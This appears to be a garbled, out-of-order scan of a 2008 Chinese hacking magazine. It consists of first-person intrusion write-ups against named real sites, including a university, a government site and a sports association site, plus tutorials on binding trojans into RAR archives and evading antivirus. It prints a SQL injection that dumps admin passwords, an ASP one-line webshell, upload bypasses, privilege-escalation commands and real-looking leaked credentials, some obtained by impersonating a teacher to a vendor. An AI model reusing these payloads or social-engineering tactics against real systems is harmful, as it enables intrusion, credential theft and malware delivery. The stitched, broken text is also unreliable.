`and 1=2 union select 1,username,userpwd,4,5,6,7,8,9,10,11,12,13,14,15 from admin`

成功爆出管理员的用户名和密码，使用工具猜解轻松多了（如图 4）。

然后我们可以利用得到的密码去网站上查询出明文的密码，或者本地的 MD5 暴力破解。如果密码破解不出怎么办？难道放弃吗？Adduser.asp 代码如图 5 所示。

这个是 admin 目录下的一个文件，是用来添加管理员的。用它来做身份判断，导致任何非法人员都可以直接加入一个网站的管理员账号，太可怕了（如图 6）。

我们在这里添加一个用户名和密码都为 mshack 的账号，其实姓名就写“非安全”，权限设置为超级管理员，成功登录即可。

试用版将在半年后不能使用！试用版不保证所有功能正常使用！如果您对本软件感兴趣，请联系我们，购买正式版。

我们总不能给朋友弄个试用版的吧，花钱买？好像不是我们的风格。先不管它，现在我们再看看这系统如何找 webshell。后台有个上传功能，试试上传 asp、asa、cer、htr、aspx、php……又是细化又是加密，搞不出新花样。通过查看代码，只允许上传 jpg、gif、png、bmp 的图片文件，这条路是行不通了。后台还有个数据库备份功能，我们的思路是上传 asp 木马的图片格式，靠输出一段脚本检测返回的数据库值，看图 7。

中把网址的地址替换为我们常用的一句话木马 `%execute request("k1")%`，然后提交保存。访问数据库的路径，得到我们想要的结果（如图 7）。拿出一句话的客户端连接得到一个 webshell，代码分析完了，但是很遗憾这只是个试用版，绝对不能拿试用版给朋友。

### 三、五心八体置顶图

打开说明文件，里面有系统详细介绍、官网地址、站长的联系方式。输入官网的地址发现是个购物的网站，出售了鱼和网的结构，校园网系统放在 mschool 目录下的。我想官网如果是正式版，那恶心的想法来了：入侵找到网站的 webshell，把代码弄出来。不知试用版的漏洞在官网是否也存在，只有测试了才晓得。把刚挖掘的漏洞在官网测试，结果是无法进入，添加管理员的页面也加了验证。估计管理权限做得比较完备了，几位应该是正式版。

我们退出后回到后台注册用户的列表。最后经过测试，这系统没有暴库漏洞，后台是用安全的 session 验证机制。不过算出了一个烦人的页面：

后台的上传功能，除了允许上传图片外，其他都被禁止了，后来关闭了上传的 asp、asa、cer、htr、aspx、php……而且只允许上传 jpg、gif、png、bmp 的图片文件。测试发现数据库备份功能中，后台有个扩展名 asp 的处理，文件名改成 gif，上传时能成功，最后利用这个漏洞成功得到 webshell。

### 四、社工带来的隐患

第二天醒来，打开计算机发现贴了张备忘条，上面写着不少内容，都是暴库得到的密码。我们不愧是个老手，程序的错误值、用户信息、网站后台等都已被我们成功渗透。

## 【西线无战事】~2008.04

家呢？我们的目的是拿到代码，首先得到网站的管理密码。以下是整理的我和管理的 QQ 聊天记录：

作者：官网用的是正式版的吗？我想买套。

细山点：主站就是正式版。

作者：我是一所学校的信息老师，最近学校让做个站。

细山点：这个是目前最好的了！

作者：那方面不错的。

细山点：我们做网站已经十年了！

作者：就是看你们有实力。

细山点：我们免费升级，物超所值！

作者：可以进去后台看看有什么功能吗？

细山点：你可以看看菜单帮助。

作者：我想实际看一下。

细山点：你先看一下帮助，再给你后台密码。  
http://www.xxxx.com/server1/help/

作者：嗯，好的。

作者：你们提供空间吗？

细山点：这个，你自己购买吧，价格自己掌握。

作者：嗯，呵呵。

作者：谢谢。

细山点：如果图片有下拉框的话，就要大空间，那分配就是很要命的。

作者：是。

细山点：现在空间都比较便宜。

作者：对。

细山点：关键是稳定。

作者：是的。

细山点：那价格少点吧？学校给的经费不多。

作者：一次投入，长期受益。

细山点：我们学校的经费很少。

作者：您的东西可以不买。

细山点：不要算 350。

作者：呃，我们个电话给领导说下。

细山点：让领导认为是你自己做的更好。

作者：领导是部分工啊，我们合作搞快。

细山点：我现在先帮你发下后台。

作者：稍等！

作者：等下给你汇款。

细山点：我会发信息给您。  
www.xxxx.com/mlschool/admin

细山点：用户名：greenleaf

密码：20071226

细山点：汇款后，请在 QQ 上联系我，或电话通知我。  
022-281836XX

作者：好的，我再仔细看看。

作者：对于你给的网站不满意？

细山点：可以使用。

作者：http://www.xxxx.com/mlschool/bbs/ 浏览不起帖子。

细山点：有许多人在论坛发不好的言论，我把论坛去掉了。

作者：在正式版里有全部的论坛文件。

作者：现在能恢复下吗？我想要完整点的。

细山点：要重新上传，比较慢。

细山点：免费下发宣传全部文件。

作者：我下载下的和你站的一样打不开。

作者：麻烦了！

细山点：我上传一下，你等会。

作者：好的。

细山点：你是怎么汇的？

细山点：有工行和农行。

细山点：可以看论坛去了。

作者：好的，发文，主题：王XX 户名：王XX 账号：0302 0609 0130 3692 4XX 中国农业银行：户名：王XX 账号：95599 8002 00466 79XXX

作者：嗯，我是工行的。

细山点：嗯！

作者：在网上银行，我将出去给你汇款。

细山点：哦，没关系，我们下午再联系。

作者：好的。

细山点：恩。

首先我用人家教师的身份冒充一位信息教师以购买代码，并以查看功能为由欺瞒管理，得到主站后台密码，成功注册后台。用之前测试代码的方法尝试传 webshell，结果访问数据库的时候并没有出现我们所要的那种，也就是文本在数据库中加了防护。看来后门无效，只好放下。结果数据库的很多功能已经没用，此外上传图片，暂时无奈地放下。结果数据库中终归有点未关的地方，这时，我想到上传图片的有关页面。经过到这里我都不能知道，究竟哪里出了问题。嘿嘿，我把一个论坛删掉了呢？原来是网页的另一个子页，论坛中有许多垃圾回复，他们把这个子页删掉了。于是我再次测试修改的这个论坛访问，出发点为我的网页留言的管理。上传两张图片，成功得到 webshell，打包下载代码（如图9）。


此次渗透总算告一段落。有些时候技术不是万能的，多发挥下想象，其实最脆弱的不是几个严重级别的漏洞，而是人们的心理。此次入侵之所以能够成功，完全归功于工大。对本文有任何意见或者建议，可以到星空异想论坛或者月联盟与我讨论。

编辑点评：  
社会工程学是一种在某些场合中无孔不入的行为，运用得好会产生意想不到的效果。不过有句话说得好，做人要本分，做事要专。在网络工作中我们会接触一些手段，但是在日常生活中希望你能保护好个人资料，提醒你的朋友还是认真加强一下这方面的防护吧。


## 西北工业大学一日游

我到了六月份就要考大学了，幻想着好好上学校，而很快就要去实现这个梦想，感觉很兴奋，但同时又很担心考不上。不管六月是否考上，今天就让我实现一下西北工业大学网站安全检测的“一日游”吧（如图1）。

我用网页浏览这个漂亮的主页，在图2所示的页面中出现了注入点，如图3所示。数据库类型为 ACCESS，而网址和其他的注入工具都无法猜到表名，那我也无能为力，只好另辟蹊径。

很快找到了一个图片的连接地址，我打开该图片的 upload 目录，结果却发现了异常，原来是 IIS 权限设置出了问题（如图4）。

我后来又翻翻里面的东西，一个个目录地走，花费了半个多小时的时间，除了那些图片和文档文件，其他的都没有想到，也利用不了，看起来这个漏洞是个鸡肋。我接下来说还是连网站目录，先不对，摸着摸着又碰到一个注入点。工具创造生产力，粗活累活的钳子还是交给网大的大叔。

果然，网大叔也没有让我失望，不一会儿，一大把的账号密码都出来了，如图5所示。

有了账号密码，接下来就是赶紧扫后台做站了，不过也还是把这个任务交给我的网大叔。但是不一会儿杀毒软件就报警了，可见已经装了 RealPlayer 木马，而且还装了 QQ 木马。不一会，我 QQ 关了，看样子已经有了先驱者，不过这位先驱者不是什么好人，没安什么好心。后台扫描出来了，原来是动易 3.51，用刚才拿到的账号密码登录吧（如图6）。

关于这套网站传 shell，我不想再多讲，有很多种办法，例如用默认的上传页 upfile_soft.asp 进行上传，也可以用老兵的上传突破，或者修改信息版权做一个提交表单等的方法，读者可以去网上搜一下。我试一下其它的思路，该网站有一个在线编辑器，跟我前几天玩的 cmseditor 文件夹一样（如图7）。

虽然是在线编辑器，但是管理员把默认的 admin 密码改了，那我们就找数据库字样的试试吧！也可以把密码改出来（/db/webeditor.mdb 默认数据库）。我下载了回来，里面存着经过 MD5 加密的账号密码，找到 cmd5.com 去解 MD5 密码，结果跑出来账号是 admin，而密码却是 not found。回头想想，记得稍前似乎写过一篇关于在线编辑器的利用，条件是：找不开密码却是默认数据库，如果站有这个过滤，并且添加了上传没被删除，我们就可以用数据库“导出”我们的恶意上传了。

我们刚才看到已经有前人挂马了，那很可能利用的是在线编辑器。先是到数据库，再扫到目录，找到一个 asa，估计就是允许 asa 文件上传。如图8所示。

好了，既然有先人的足迹我们就顺着走上去访问利用，在 url：

```text
http://xxx/editor/ewebeditor.asp?id=xx(数据库的列名)&style=xx（数据库的列名），我们这里用 12（如图9），所以完整的语句是：http://campus.nwpu.edu.cn/jwc/jxpy/cmseditor/ewebeditor.asp?id=12&style=12
```


## 利用 Radmin 口令进行内网渗透控制案例

通过本案例你可以学习到：

- 通过键盘记录等获取 Radmin 的口令
- 通过已经获取的 Radmin 口令来对内网进行渗透

Radmin 作为一款强大和好用的远程控制软件，因此深受管理员喜爱，但是很多管理员却都有一个习惯，就是将 Radmin 的口令设置为同一个口令。通过键盘记录以及 Radmin 客户端可以很容易地突破内网渗透。

在 Radmin 客户端中如果要连接服务器端，必须要建立一个连接，也就是需要一个 IP 地址和端口号，否则就不能使用。当建立一个连接以后，就会在 Radmin 客户端中保存记录以便于下次使用。


在 Radmin 客户端中如果需要连接服务器端，则必须要建立一个连接，也就是需要一个 IP 地址和端口号，否则就不能使用。当建立一个连接以后，就会在 Radmin 客户端中保存连接记录。


内网计算机上显示的网络连接为内网的 IP 地址“192.168.0.102”，右侧网络连接中显示 Radmin 连接为内网的 IP 地址“192.168.0.102”。在本地 Radmin 客户端中选择“Telnet”功能，输入密码后，使用 Telnet 管理。


尝试建立连接。将内网中的 Radmin 客户端中的内网 Radmin 服务器端模拟状态按照以上方法创建连接。创建完毕后，依次选择内网计算机进行连接操作。在本案例中选择 IP 地址为“192.168.0.11”的计算机，在 Radmin 客户端中选择“屏幕查看”功能，双击进行连接，输入内网的 Radmin 控制口令进行尝试连接。在进行尝试连接时，如果内网计算机安装了 Radmin 服务端，则需要输入两次密码，一次为内网的 Radmin 口令，第二次是内网计算机的 Radmin 口令。口令正确后，就可以执行相应的操作。在本案例中对内网计算机进行监视查看，如图3所示。


通过前面的步骤获取到的信息，我们可以再次尝试在内网中进行入侵操作。通过内网口令进行连接，并利用 Telnet 工具查看到内网中另外一个计算机的系统信息及控制权限，进而实现对内网主机的远程控制。

## 小结

本案例通过查看已经控制的内网中的 Radmin 客户端，对其内网的 Radmin 服务端进行连接。使用内网的 Radmin 口令来登录内网计算机上的 Radmin 服务端，一旦口令正确则可以完全控制该内网计算机，该方法简单而行之有效。

## 利用整站源代码黑站

晚上在寝室闲着没事，想到过年以来还没更新过站吧，不禁有点想黑一把了，于是便有了此文。先上 Google，用 webroot.rar 做关键词搜了一下，找到一个 http://www.chap.com.cn/web.rar，估计这个就是整站代码，于是下载过来。好家伙，压缩包 200 多 MB 呢，看样子是个大块头了。一般这么大的源码包，可能都是 js 封死的（什么？经验之谈）。解压之后，顺藤摸瓜，在 web-inf/config.xml 里找到了数据库连接的代码：

```xml
<set-property value='jdbc.oracle.thin:@127.0.0.1:1521:orcl' property='url'/>
<set-property value='oracle.jdbc.driver.OracleDriver' property='driverClassName'/>
<set-property value='scml' property='username'/>
<set-property value='f0ung927' property='password'/>
```

从第二行看得出，数据库系统是用的 ORACLE。然后似乎很牛，很霸道！我来架设本地测试。大喜，我拿去 execute 发送至 www.chap.com.cn，发现不对劲了：怎么没有开放 1521 端口啊？再仔细读 config.xml，问题就出来了：目标数据库不是 www.chap.com.cn，而是 http://www.smenl.gov.cn，竟然开了 1521 端口。问题竟然是：web 的数据库在别的地方？原来网站的数据库根本不在 http://www.chap.com.cn 这个站点上，而是完全指向另一个站点。看样子我们可以把数据库连接地址偷偷换为 127.0.0.1 的本地地址，然后让 www.smenl.gov.cn 来连接本地数据库，然后再来试试看。


继续翻了翻，发现目录里找到了一个 upload.jsp，一看就知道是个上传的。抱着试一试的心态，把改好的 webshell 上传上去了（如图1）。结果上传之后，竟然是一片空白。哈，毕竟原来是个 gov 的站，这么深色设置应该不太适合吧。不过网页完全没响应！问题出在这个空白页面的源码里，Html 代码里返回了这么个地址：/resource/newspic/2008/2/25/testss.jsp。看样子这个就是我们刚才上传上的 webshell 的存放地址。

发现图2里面的 webshell 竟然在 /resource/newspic/2008/2/25/testss.jsp 里了。原来这是网站的根目录，所以整个 webshell 的地址应该就是 http://www.smenl.gov.cn/resource/newspic/2008/2/25/testss.jsp 了（如图2）。

## CBA 官方网站的沦陷

小冲 @O.S.T. 从本文你可以注意作者在各个环节中的一些小细节。近日看国内体育新闻，中国女足即将对阵中国队，小到重庆，天山……我忽然想到，若有朝一日国家队和 CBA 呢？我又不能在 CBA 打球，那就看看官方网站的网页吧。该网站上去发现还是个大的整体页面，官方网站的基础仍然可以把它改过来啦（如图1）。网站首页那几个大字：中国篮球协会官方网站。我掂量了下，试试一下，用 google 语法找点什么的。还记得 google 语法吗，打开网页，输入：

site:www.cba.gov.cn inurl:aspx|asp|php|jsp

这个语句就是找出官方网站的 aspx 或者 asp、php、jsp 的脚本页。

服务的形式启动的，默认权限是 LocalSystem，也就是本地系统权限，运行到 cmd 的时候也是以最高的 System 权限。然后就是 net user 加用户，net localgroup 提权了，这个大家都知道了。最后因为 web 服务器在国内的原因，连上 3389，再加上自己这边内网速度又慢，而且对方是一个政府站，于是就打消了 3389 的念头。反正拿到了 System 权限就够了。


现在国内用 win+apache+jsp 和 win+apache+php+mysql 的服务器也不少。其实很多后台，几乎每台服务器中就有一台是这样的软件配置。如果对方拿了 webshell，管理员应该如何防范呢？网站若被人入侵，服务器被植入后门，登录上 3389 只是其中一种办法，不知道各位有着什么更好的主意。

- 1. 新建一个用户（如 webserver），然后把 Tomcat 或者 Apache 的启动用户设置成这个用户，然后给 web 的权限加上限制，只允许读权限，不允许执行。这样至少可以防止入侵者在 web 页面上挂马，但是不能防止人在通过网站获得数据库连接信息后继续利用。
- 2. 不让 web 运行的用户有权限读、写 web 文件目录中的敏感位置，避免上传的 webshell 直接访问系统敏感文件。系统用户完全安全，只要把 web 目录设置成尽可能小的权限，就是可以阻止这种 webshell 上传到 web 上。

编辑点评：降低权限，最小化授权范围，这是防护的一条原则。不错，防御意识还是应当加强。

促进一个页面吗，发现竟然是在线编辑器，当然有上传的地方。试试能不能直接上传吧，如图6所示。这个是洋葱头 html 编辑器，不是 eWebEditor，上传 asp 不行，上传 aspx 也不行，凭着本人的运气试下解析问题的双重扩展名吧。上传个 1.jpg.aspx 试一下，返回成功，虽然你看的时候是一个 X，但是通过链接属性还是能找到它们的地址，如图7所示，接着就不需要我继续说了。整个过程只花了 15 分钟左右，没什么新的 0day 利用。

总结：本小例我也没什么新奇的，由于是 gov 的站，我不敢继续下去了。如果大家对 aspx 的站能执行命令的话，不妨试下 cacls 命令，例如：cacls.exe c: /E /T /G everyone:F，把 c 盘的权限改到 everyone 都能控制。

编辑点评：google 语法 + 注入点 + 双重扩展名上传，这一句就可以概括本文了。这些基本的东西就是要学懂。依然重要的是作者能在 html 源码里看到这种代码的出处。这是一种方向明确的办法，这样就有了从注入转向上传测试的这种可能。


## 对某电器集团官方的一次渗透

图1

图2

图3

图4

图5

图6

图7

## 一、前言

### 二、基本检测

## 三、获取 WEBSHELL

不要盯主站了，因为主站上没有漏洞，而子站有漏洞的话对我们也有用的（如图1）。搜索了一会儿，还是出现了一个目标站的注入漏洞。先检查一下是什么数据库，得到的结果是 MSSQL 数据库和 DB 权限。再去看看有没有列目录权限，运气不错，可以列目录。列目录时我把绝对路径放在这里省略了，我找了大半个小时的目录才找到了绝对路径所在，但是却没有备份的权限，只能再找找看有什么可以利用的东西了（如图2）。


在翻遍很多目录的时候，发现有个目录的名字是以网站的形式命名的，一个叫 www.hai***tic.com 的目录，这说明这个站点很大可能和 hai***.cn 在同一个服务器或者同一个机房。用 CMD 来 Ping www.hai***tic.com，发现它们是在同一个段上，但是不同服务器（注：应该是网站目录后端服务器的定位。虽然这里有我们手里的 web 目录文件夹，但是怎么获取到呢？先到别的地方找找看）。


想了想，换了个奇石马来试试，结果也不行，这目录做了限制，无法执行 ASP。再想想办法，用 eWebEditor 的通用路径漏洞看看网站目录的文件，还有什么可以利用的。

利用方法：在上传文件前，从路径中找一段文件夹名，在地址栏上会有相对路径的链接 webeditor/admin_uploadfile.asp?id=34，再加上 ewebeditor/admin_uploadfile.asp?id=34&dir=...，然后一边一边往上浏览，就能知道命名并变成真正的路径。eWebEditor 路径漏洞在下载后，再加上目标站权限设置不可靠时，可以很随意地直接访问那个根目录（如图4）。

我在里面翻了老半天，又发现还有可以利用的分站。这个分站是个房地产相关的站点，地址是 http://www.hai***use.com/。这个分站跟 hai***.cn 也不是一个站，是无权限的（看来这个机房服务做得都不多，不管它，先拿下一个站再说）。在这个站点的子目录 news/db/ 下有数据库文件 db.mdb。下载到本机后，用 Dreamweaver 自带的数据库浏览器查看，里面的账户密码居然是以明文的形式存放的，这里就很顺利地利用了这次站点的后台（如图5）。


## 四、挂马

好了，WEBSHELL 已经拿到了，现在我们准备拿服务器。在子目录 news/db/ 下有数据库文件 db.mdb。下载到本机后，用 Dreamweaver 自带的数据库浏览器查看，里面的账户密码居然是以明文的形式存放的，这里就顺利利用了这次站点的后台（如图5）。


## 五、阳光总在风雨后

入侵之后，发现这服务器里的 FTP 是 SERV-U 5.0，那么我们可以利用这个来提权（如图7）。

很无奈的事情又来了，用 webshell 自带的 serv-u 提权，serv-u 是 System 权限，可以增加用户，但是它们的超级终端怎么都连接不上去，LCX 端口转发、端口复用都不行。估计是内网做了限制。我们可以把 IIS 停了，把终端的端口转到 80 端口上，这样是绝对可以连接的，防火墙再限制也要对外开放 80 端口吧，要不别人怎么访问 WEB？但是我们一把 80 停了，网站立马无法访问，像这样负责任的管理员一定会发现的！我该怎么办？天啊，赐我个 ODAY 吧！


后来又想了想，这个机房那么多分站，是不是服务器很多？有没有可能这个 IP 段内大部分都是它们的呢？如果拿到这个机房的其中一台机器，然后再从它分出的服务器上找到想要的信息，这岂不是能轻松连接上目标服务器，这对人很有很大的帮助。这时我也只好硬着头皮试了，立即开始行动，拿出 IIS 扫描器，经过一段时间的扫描，最后把目标放在 IP 为 211.*.*.*.187 的服务器上。顺便又从 D 盘翻到了一个空注入点，花 RP 真好，这回是 MSSQL 数据库和 SA 权限（如图8）。

我找了一个目录，利用数据库备份功能拿到了一个 WEBSHELL。由于这是临时机房私机，设置自然默认 IIS 服务器在 3389。既然不让我访问，可以转 3389 端口到 80 上，便于转发。这时这站点相结合，估算管理员 N 久都不管事了，我们就把终端的端口转到 80 上。先用 WEBSHELL 建个 conn.asp 之类的文件，暂时保存 SA 连接密码（如图9）。

接着又用 ASP 版的 MS-SQL 连接器传上去，再将 AntiFW.exe 传到 C:\inetpub\AntiFW 下，先看看 AntiFW.exe 的使用参数：

```
http://www.xxxxxx.cn/ 0xXXXXXXXXXX
Usage: AntiFW
-i to stop IIS, and set TS to 'port 80'（翻译：把 IIS 停止，然后把终端端口转到 80）
-u to stop, -s and set TS to 'port 80'
-g to logoff yourself, and start IIS in a minute（翻译：注销当前用户并自动重启 IIS）
```

运行 c:\inetpub\AntiFW.exe -s，这时网页就马上不能访问了。我们再等待一会儿，这时一个小马已经可以连上了，显示稍微的信息只是一个普通管理员。趁这时候利用新得到的连接方式连上了，发现端口已经通了，于是继续使用在 3389 端口上开通的功能……

利用刚刚的 WEBSHELL 里的 serv-u 添加用户，现在我已经拿到分站的服务器。但是在操作中，继续上传一个 ASP 木马时，发现两个有用的功能，如图11。然后我就利用了 site 下和站点内部的 FTP 以及机房分站的 FTP 记录（如图12）。

连接到了下层站的 IP，这个点没费什么过程。连接的分机是 211.XXX.183 时成功了，这个分站一般都是采用 JSP 做的。连接后我得到了一个 JSP 马，通常 JSP 马有 ROOT 权限，这台


## 一次简里的渗透

从本文你可以看到 win2003+dvbbs8.0 后台拿 webshell 的方法。

近来在网上闲逛，在百度上无意看到了我们这里的一家网络公司，如图1所示。看到了吗，上面的“我们是网络建设专家，必须构建网上新家园”，看上去挺专业。我又随便转了一下，发现上面正好有一个板块，是介绍网络安全的，讲的是如何做好服务器的安全，如何防范黑客入侵，貌似很专业。就在这个时候，我突然想起来一句话，“知己知彼，百战不殆”，哈哈，开个玩笑，下面开始。

先看看网站的布局，特意浏览发现网站是后台生成的 HTML 静态页面，而且分别就能找到一个较大的搜索页，还有在另外一个页面能够看到它们的管理员页面。猜测它们的程序也是自己写的了，我也拿不到实现代码库中的内容。恰巧想了个简单的办法，搞起一个小小的脚本工具，先把程序名改成了“老规不不公急”，我就通过几组代码试探性运行，看看能不能用……


图14

## 六、写在最后

经过这样一番三折地搞来搞去，虽然很繁琐，但是最终还是把目标主机拿下了，可谓功夫没有白费啊。在渗透过程中用的是自己写的经验，如果有什么地方不妥，还请大家多多指教。不过我自认为这个思路还是值得大家参考的，嘿嘿。偶然大家还有什么疑问或更好的建议，可以到“黑手”的论坛上一起讨论。

编辑点评：

摘要性强，作者应当多看看纸质书。不过如果是我的话，有了用户名和密码，3389 进不上去的时候，我一会儿就会补个小马先拿。如果有 webshell，再加上用户名密码，可以利用 psexec 执行用户权限的程序，或者用 ASP 直接调用 WMI 也是不错的方法。

cn_勇者（Summer）

笑了，如图2所示。这个服务器上共有 76 个站点，这下有希望了，不过比较麻烦，得要一个一个地看。当然我看到其中的 http://www.xxx.com/bbs/ 网站时，发现它有个 bbs 目录，是个论坛，仔细看了一下是 DvBBS 8.0，8.0 版的确对我还是头一回。

我先在 URL 后面加上 /data/dvbbs8.mdb，迅速在那里弹出提示信息并下载，心里阵阵高兴。下载成功后打开数据库文件，得到后台登录生成密码，接着再找到登录程序，通过在线修改，成功登录后台。接下来通过数据库中已保存的数据库文件，发挥服务器操作技巧，后来顺利拿到网站的 webshell。


用 shell 简单地清理完毕后，我们通过 shell 轻松地跳转到了我

## 通过社工获取网易某频道 shell

图：螳螂捕蝉，黄雀在后（如何）？

我们打开源文件，获取 shell 的 html 部分，如图3所示。


我们发现 title 部分，也是标题部分，是“jsp shell for flash”，当时我就想，这个 shell 会不会在别的站上被放过呢？那别人入侵我的站，嘿，我要把入侵者找出。


我们去搜“jsp shell for flash”吧，搜索时我利用了很大和谐的 Yahoo（非主流搜索？），结果如图4。


我们可以自己找，打开网页文件，找到一个上传的地方（如图6）。网站没有任何过滤，轻松传了个自己的 shell（如图7）。

然后我找到了“jsp shell for flash”这个 webshell，编辑一下该 shell，找到了它的登录密码（如图8）。

编辑后记：win2003 这个缺陷存在好久了，用过 win2003 做服务器的，都是太脆弱了，像蛀虫一样也挡不住这个漏洞，哈哈。

## 非安全编程手册 2008.04→【高手专栏】

> 卷首语：……（正文略，图片中为一段引言文字）

## 批处理打造自己的小工具

出于对 LCX 太过强烈的需求，良久操起许久没碰的批处理，终于绞尽脑汁写了此文。此处提到的英文为 BATCH，它的扩展名后缀为 BAT，就是取了 BATCH 的前三个字母，当然改成 *.cmd 也可以执行。批处理运行的平台是 DOS，老的和现今的 Windows 也支持。它有固定格式，每一行可视为一个命令，每个命令里可以含多个子命令，从第一行开始执行，直到最后一行结束。批处理有一个很鲜明的特点：使用方便、灵活，功能强大，自动化程度高。

工具功能：查询快捷方式所指文件路径、系统账号重命名、重新启动、安装服务、删除服务、端口关联进程。由于时间仓促，程序不足之处，请谅解！我们来一个个实现吧。

## 一、查询快捷方式所指文件路径的实现

为什么要介绍这个功能呢？我们在 Hacking 的时候，有时想看看快捷方式所对应的目标程序是什么，却只能拖下它到桌面，按属性看快捷方式属性。为了方便，今天就先介绍一下如何在命令行下实现此功能。代码和注释如下：

```bat
@echo off
if "%1"=="" Echo 输入要查询的快捷方式路径(路径请含空格，请用引号引起来) &Goto Exit
%~f1
Echo %~f1
Echo 输入命令是...
Echo %~1
Echo 查询目标文件路径是...
:Exit
exit
```


广告：www.isecsp.com 很强大很和谐，专业提供各种安全服务。对这篇文章大家有什么不懂的可以到我 blog 留言，http://majun1988.cngxr.com。

> 编辑点评：%f 是一个老漏洞了，早久以前曾成为专门一本暴露源码的网页，里面仅仅说出源码和其他的相关 JSP 小漏洞，大家有兴趣可以到我网站（海市蜃楼网站）上去查阅。

## 二、系统账号重命名功能的实现

有的时候我们想重命名系统账号，而控制面板里的账号管理功能不能帮我们实现真正的改名。今天介绍一下 WMIC 命令的一小部分给大家。[WMIC 是一款命令行管理工具。使用 WMIC，你不但可以管理本地计算机，而且可以管理到一切 Windows 域内的所有远程计算机系统（需要支持 WMI 协议），要注意的是运行 WMIC 时，系统只需要安装 WMI 即可。] 代码如下：

```bat
@echo off
if "%1"=="" Echo 输入新系统账号名称 &Goto Exit
if "%2"=="" Echo 输入要重命名的账号名称 &Goto Exit
Wmic UserAccount Where Name='%1' call Rename '%2'
:: 利用 Wmic 命令来重命名系统账号
:: 不是非常简单吗？
:Exit
exit
```

## 三、重新启动功能的实现

首先我们要设定 INF 文件。INF 是 Device Information File 的英文缩写，是 Microsoft 公司为硬件设备制造商发布其驱动程序所推出的一种文件格式。INF 文件中包含硬件设备的信息或脚本来控制硬件操作。

```bat
@echo off
Setlocal
:: 启动批处理文件系统模式实现器的本地化
endlocal
:: 命令表明批处理文件结束为止
Cd /d %temp%
:: 利用环境变量，直接进入系统临时目录
Echo [version] > reboot.inf
:: 每一个 INF 文件都包含一个这样的节，该节中主要描述 INF 文件支持的设备驱动和所选用的操作
Echo signature=$chicago$ >> reboot.inf
Echo ...
```

## 【高手专栏】—2008.04｜反安全：黑客手册

## 四、安装和卸载系统服务功能的实现

## 五、查看端口关联进程功能的实现

相信通过对我脚本内容以及 INF 相关的详细解释，大部分的朋友已经了解了这段代码的原理了吧。去掉注释后，整个功能也不过就 8 行，还算挺小精悍了！

我觉得接下来我们再来看看比较经典的用途。代码如下：

这里再次感谢原作者给大家带来了那么经典的代码。（经过测试，XP 可以使用，2003 有问题）

本文中列举了一些批处理的简单和复杂的用途，具体的含义还需要读者自己多多研究和测试，才能得以领悟其中的精髓！学会了批处理，对于平常的 Hacking、娱乐都有很大的帮助，能够高


## 让 RAR 再次不被执行查杀

从本文你可以学习到：让 RAR 免杀“毒手”。

在几年以前，有人发现，利用 WinRAR 的自解压功能，不但可以对多个文件进行捆绑，还可以起到一定的免杀效果。但是随着这一黑客软件技术的不断更新，这种被称之为“永不检举”的捆绑机器已经成为过去。那么如何让 WinRAR 再次焕发新生？今天我们就来想一想新的办法。

## 一、捆绑文件

现在通过 WinRAR 将批处理文件和利用文件进行压缩，接着打开进入 RAR 文件并点击“自解压格式”图标，在弹出的对话框中点击“高级自解压选项”按钮。然后在弹出的“高级自解压选项”窗口中选中“常规”选项标签，在“解压后运行”中输入正常文件的名称，在“解压后运行”中输入木马文件的名称。现在点击“模式”选项标签，在“临时模式”中选中“解压到临时文件夹”选项，再选中“全部隐藏”和“覆盖所有文件”两个选项后，点击“确定”按钮退出即可，如图1。


## 二、修改文件

不过在本地运行自解压文件的时候，发现程序只是打开了正常文件，而捆绑的木马文件却没有运行，现在需要修改一下文件的程序才可以。用 WinRAR 打开这个自解压文件，点击工具栏中的“注释”按钮，在弹出的窗口中输入一句“注释”，再把 presetup 改为 setup 即可，如图2。这样两个文件就能顺利运行了。不过需要用户在关闭运行的正常文件后，木马文件才会自动运行。


不过现在这样的捆绑还是不完善，因为通过右键就可以对其解开。因此需要对自解压文件进行编辑，利用工具 C32Asm，选中“文件”——“打开十进制文件”命令，选择自解压文件，然后找到相关的代码，继续进行右侧的修改。很多较老的系统里已经实现了一套更强大的代码，可设置快捷键，并在一个 NP.bat 的批处理脚本中，相信大家是可以看得明白的。

> 编辑点评：虽然看起来在界面选择的操作系统上取得了成功，但是我们没有把常规操作和解密的软件都做好，会导致在系统故障时不能正常运行。其实，将其视作一个辅助功能，可以把其设置为 Windows PowerShell，相信批处理的功能会被提升一个新的高度。本期 NP 辅助工具，你可以搜索到的就是如此一处功能。

## 三、制作为补丁

通过上面的方式进行修改，虽然这个自解压文件已经和普通的 EXE 文件没有差别，但是利用 WinRAR 也不能对其进行解压操作。但是经过多次测试扫描，结果却被发现 RAR 文件发生异常报毒。这里我们通过 MYCCL 来进行定位，定位过程就不再赘述了，最终的特征码为 00081467_00000000。现在再打开 C32Asm，准备修改的自解压文件，接着通过搜索找到特征码所在的位置，再把 40 改成接近的数字并保存即可免杀。

为了让自己以后操作起来更加简单，因此最好制作一个补丁文件。运行 CodeFusion 这个补丁程序，首先在窗口设置和补丁目标中设置好文件名，点击“下一步”按钮。在“要打补丁的文件”列表中，点击鼠标右键选择“添加文件”，在弹出的窗口中选择“添加数据”命令。然后在弹出的窗口中输入“添加数据”按钮。现在在“要补丁的内容”列表中，点击鼠标右键的“添加数据”命令，然后在弹出的窗口中点击“查找及替换”按钮。


在弹出的“查找及替换”窗口中，在“数据（查找）”中输入 807A0161，接着在“数据（替换）”处填入 807A0160，然后点击确定按钮设置操作，如图4。前面的操作我们已经知道，要使 RAR 自解压文件通过映像过程验证，要求对文件本身进行必要的修改。现在再点击右键的“添加数据”命令，再修改其中的两处数据信息，如图5。


设置完成后点击“下一步”按钮，去除“加密可执行文件”和“压缩可执行文件”选项，最后点击“创建 Win32 可执行文件”按钮，就可以成功地创建出需要的补丁文件。

## 四、小结

## 利用 SEH 加花样进行免杀

从本文你可以学习到：SEH 加花免杀。

很多刚刚接触到编程的朋友，其所编写的程序往往不太稳定，但是其实在理解 Windows SEH 原理后，再编写相应的软件就会发现不会再弹出各种错误了。此外，SEH 还被广泛应用于反脱壳以及加解密中，因此利用它来进行免杀也就变成顺理成章的事情。

## 一、SEH 相关知识

SEH，全称为 Structured Exception Handling，即结构化异常处理。Windows 操作系统提供给程序设计者的强有力的处理程序错误或者异常的一种服务。在 Visual C++ 中，用户或许已经熟悉了 try{}、finally{} 和 try{}、except{} 结合，但这毕竟不是编译器原本专用的，而实际上只不过是对 Windows 在内核中的结构化异常处理的包装。而不止这些高级语言编译器所提供的包装，编程还可以利用系统提供的强大 SEH 机制功能。

